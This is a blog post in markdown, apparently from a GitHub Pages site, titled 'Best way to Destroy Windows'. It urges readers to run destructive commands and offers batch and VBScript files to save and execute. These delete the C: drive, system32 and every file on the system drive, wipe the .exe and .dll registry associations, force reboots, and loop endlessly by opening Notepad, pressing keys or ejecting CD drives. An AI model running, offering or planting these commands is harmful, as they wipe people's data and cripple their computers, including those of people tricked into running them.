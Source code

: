 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

###### 2.1 The blue screen of Death
Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

. 
###### 2.2 Stupidity Shutdown
code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

. 
###### 2.3 Delete Key Registry Files
code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

. 
###### 2.4 Endless Notepads
code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

. 
###### 2.5 Crazy caps lock
code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

. 
###### 2.6 Endless Enter
code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

. 
###### 2.7 Endless Backspace
code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

.
###### 2.8 Popping CD Drives
code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

 
And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)


